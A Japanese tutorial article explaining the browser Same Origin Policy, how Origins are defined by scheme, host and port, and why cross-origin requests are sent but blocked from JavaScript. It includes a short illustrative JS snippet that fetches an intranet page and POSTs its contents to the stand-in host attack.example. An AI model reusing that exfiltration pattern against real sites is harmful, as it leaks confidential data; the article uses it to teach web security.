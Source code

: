 ```yaml
---
title: "Same Origin Policy というセキュリティモデル"
emoji: "📝"
type: "tech"
topics: ["same origin policy", "origin", "web"]
published: false
---
```


# Same Origin Policy というセキュリティモデル

読者の中には、 fetch や XMLHttpRequest(XHR) でリクエストを送信したときに、**Cross-Origin Resource Sharing**(CORS) 違反で失敗したり、**Preflight Request**(Preflight) という謎のリクエストが送信されたりして悩んだ経験があるかもしれない。これらは全て、ユーザーを保護するために設けられた**Same Origin Policy**(SOP) という制限を、ブラウザが遵守した結果である。

今回は、そもそもなぜそうした制限が必要なのか、 CORS はその制限をどう解除するのか、 Preflight はなぜ送信され、 JSONP は何がだめだったのかといった、 Web 開発者が必ず知っておくべき、 Origin の正しい理解について解説する。

:::message alert
この原稿のセクション 01~03 は [Web+DB Press vol.115](https://gihyo.jp/magazine/wdpress/archive/2020/vol115) (2020 年 2 月号) に掲載されたものをベースに、大幅に加筆修正したものです。
:::


# Same Origin Policy

SOP とは、ユーザーを保護するために Web に設けられた **セキュリティモデル** である。まずは、 SOP が実際にユーザーをどのように保護するのかを見ていく。


## SOP が無かったら

まず SOP を意識する身近な場面として、ブラウザから`fetch()` API を用いて HTTP リクエストを送信するケースを例に考える。

以下のような Web サイトを想定しよう。

- 社内サイト(Intra)
  - <https://intra.example> は、社内ネットワークに接続した社員のみアクセスできる
  - そこには社外秘の情報があり、社外からこの情報を狙う攻撃者がいる
  - 社員は、社外ネットワーク(インターネット)にもアクセスできる
- 攻撃者サイト(Attack)
  - <https://attack.example> はインターネット上にあり、誰でもアクセスできる
  - カモフラージュのため EC サイトなどを装っているが、悪意のある攻撃者が運営している
  - 攻撃者は社内ネットワークにはアクセスできないが、社員を Attack にアクセスさせ、 Intra の情報を収集できないかと狙っている

![Intra と Attack の構成](https://cacoo.com/diagrams/L0Jn5wPiobCrsSDy-98D42.png 'overview')

:::message
.example は [例示のため](https://blog.jxck.io/entries/2017-09-27/example-local-test-domains.html) に自由に使うことができる Top Level Domain だ。
実際に購入し使われることは無いため、一般的には .com などと読み替えるとわかりやすいかもしれない。
:::


## 攻撃者サイトからの攻撃例

攻撃者が Attack に次のような JS を仕込み、そのページを何らかの方法で社員にアクセスさせることで、 Intra の情報を抜こうとしているとする。


```js
// AttackからIntraの情報を取得する
const res  = await fetch("https://intra.example")
const text = await res.text()

// その情報をAttackに転送する
await fetch("https://attack.example", {
  method: "post",
  body:   text
})
```

社員がこのページにアクセスすると、 JS で生成されたリクエストは、同じ社内ネットワークにある Intra に届いてしまい、取得した結果を Attack に POST で転送すれば、攻撃者はその内容を得ることができてしまう。攻撃者は、社員が Attack を閲覧している間に Intra を JS でクロールして、機密情報をごっそり抜くことも可能になる。

これが成立してしまうのであれば、会社は社員のインターネットへのアクセスを全面的に禁止するしかないが、それ以前にそんな危険な機能を Web 標準やブラウザ実装に入れることはできない。


## Web 以外の攻撃経路との違い

この攻撃の発想は Web だけのものではなく、もし社内のマシンに同じことを行うプログラムを実行させることができれば、攻撃は成立する。しかし、その場合は何らかの方法でネイティブアプリを**ダウンロード/インストール/実行**させる、いわゆるマルウェアに感染させるような下準備が必要となる。

一方、 Web の場合は、ページを閲覧するだけで JS が取得され、ネイティブアプリでは行われる配布元の検証といったプロセスを経ずに実行されるため、 URL にアクセスさせるだけで成立してしまう。この攻撃を防ぐには、取得した JS を何の検証もせずに実行しても、情報の流出などが発生しないようにする仕組みが必要だ。

そこで、このような攻撃が成立しないようにブラウザに設けられた仕組み、セキュリティモデルの一つが SOP なのだ。


## SOP の定義

SOP を知るには、まず Origin の定義を知る必要がある。 Origin とは基本的に(応用は後述)、 URL に含まれる Scheme, Host, Port を組み合わせたものであると理解すればよい。

Intra と Attack の Origin は表のようになり、 2 つは Scheme(https) と Port(443) は同じだが、 Host(intra.example, attack.example) が違うため、異なる Origin とみなされる。[^1]

| URL                      | Scheme | Host           | Port |
|--------------------------|--------|----------------|------|
| https://intra.example    | https  | intra.example  | 443  |
| https://attack.example   | https  | attack.example | 443  |


[^1]:Port が省略されている場合, Scheme が http のときは 80 , https のときは 443 になる

SOP の実体は、**ある Origin のコンテンツからは、同じ(Same) Origin のコンテンツにしかアクセスできない** という制限を指す。

先ほど Attack に設置された攻撃用の次の JS は、 Intra に対して GET を送信する`fetch()`が SOP 違反でエラーになるため、情報を収集することはできない。


```js
// Intraの情報を取得する(Originが違うため失敗する)
const res = await fetch("https://intra.example")
// 情報を盗むことはできない
```

SOP のおかげで、 Attack に限らずインターネット上のどんなサイトにアクセスしても、 Origin が違えば Intra の情報を勝手に抜かれることはなくなり、ユーザーは安心して Web を使うことができるのだ。


### Origin != Host

Origin は Host だけではないという点も重要だ。「Host が同じなら、そのサービスの管理者は同じなのだから、 Scheme や Port の差まで見る必要がないのでは?」と思うかもしれない。そこで、もし Origin の定義に Scheme や Port が含まれていなかった場合、何が起こるかを考えてみよう。

もし Origin の定義に Scheme, Port が含まれなかった場合、次の 3 つは同じ Origin となる。

1. https://intra.example
2. https://intra.example:3000
3. http://intra.example

例えば❷は Port が開発用のものだとする。開発環境はセキュリティ対策も弱く、本番よりも攻撃が容易な場合が多いだろう。この開発環境から本番環境❶にリクエストが成功するのであれば、攻撃者は開発環境を狙うことになり、安心して開発ができなくなってしまう。

また、❸は http のため経路が暗号化されておらず、中間者によって改ざんされる危険がある。改ざんされた❸に埋め込まれた JS から❶へのリクエストが成功してしまっては、❶が暗号化されている意味がなくなってしまう。

他にも、同じドメイン上には Web に限らず様々なサービスが別の Port でデプロイされている可能性があるため、それらが全て同じ Origin となると、攻撃される隙が多くなってしまうのだ。


### SOP の注意点

異なる Origin へのリクエストは **失敗する** が **リクエストが行われない** わけではない。


```js
// Attackからのリクエスト(Originが違うため失敗する)
const res = await fetch("https://intra.example")
```

Wireshark 等で実際にブラウザから送られているパケットを見ると、次のような HTTP リクエストがサーバに対して送られていることがわかる。


```http
GET / HTTP/1.1
Host: intra.example
Origin: https://attack.example
```

:::message
解説に不要なヘッダは削除している
:::

このリクエスト自体は正しいものとして受け入れられ、サーバからはレスポンスが返されるだろう。


```http
HTTP/1.1 200 OK
Content-Length: 1024
Content-Type: text/html

<!DOCTYPE html>
...
```

SOP に違反して JS でエラーが上がるのは、リクエストを送らなかったからでも、レスポンスが届かなかったからでもない。

ブラウザが受信したレスポンスの内容から **SOP に違反していると判断** し、 JS にはレスポンスを渡さずエラーを上げているからなのだ。

URL を確認すれば異なる Origin へのリクエストかどうかわかるので、リクエストを送信する前にブラウザが阻止すればよいように思うかもしれない。もちろん、それは可能だ。しかし、そうしてしまうと**サーバが異なる Origin からのリクエストを許可する**ことができなくなるため、ブラウザはレスポンスの内容を確認してから決めている。

**リクエストは送信されているが JS ではエラーになる**、ここが SOP および CORS を理解するうえで最重要な点なので、次説で順を追って解説していく。
